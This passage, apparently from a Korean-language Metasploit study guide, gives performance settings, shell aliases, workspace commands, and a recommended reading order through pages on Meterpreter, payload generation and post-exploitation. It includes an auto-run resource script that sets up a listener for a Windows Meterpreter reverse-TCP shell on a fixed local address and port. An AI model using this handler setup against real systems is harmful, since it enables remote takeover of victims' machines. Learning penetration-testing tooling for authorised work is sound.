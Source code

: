 ### 성능 최적화

```bash
# 스레드 수 조절 (브루트포스시)
set THREADS 10

# 타임아웃 설정
set ConnectTimeout 5

# 베이스 모듈만 로드
msfconsole -n
```

## 🔧 실무 환경 설정

### 자주 사용하는 설정

```bash
# ~/.bashrc 또는 ~/.zshrc에 추가
alias msf='msfconsole -q'
alias msfr='msfconsole -r /root/scripts/auto_handler.rc'

# 자동 실행 스크립트 (/root/scripts/auto_handler.rc)
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.50
set LPORT 4444
exploit -j -z
```

### 워크스페이스 관리

```bash
# 프로젝트별 분리
workspace -a client_2025_01
workspace client_2025_01

# 스캔 결과 임포트
db_import /root/scans/nmap_results.xml
```

## 📈 학습 순서 추천

### 초급 → 고급 단계별 학습

1. **1단계**: [기본 사용법](basic_usage.md) → [설치 가이드](installation.md)
2. **2단계**: [실무 사용법](real_world_usage.md) ⭐ (가장 중요)
3. **3단계**: [Meterpreter 가이드](meterpreter.md)
4. **4단계**: [페이로드 생성](payload_generation.md)
5. **5단계**: [Post-Exploitation](post_exploitation.md)
6. **고급**: [공격 시나리오](attack_scenarios.md)
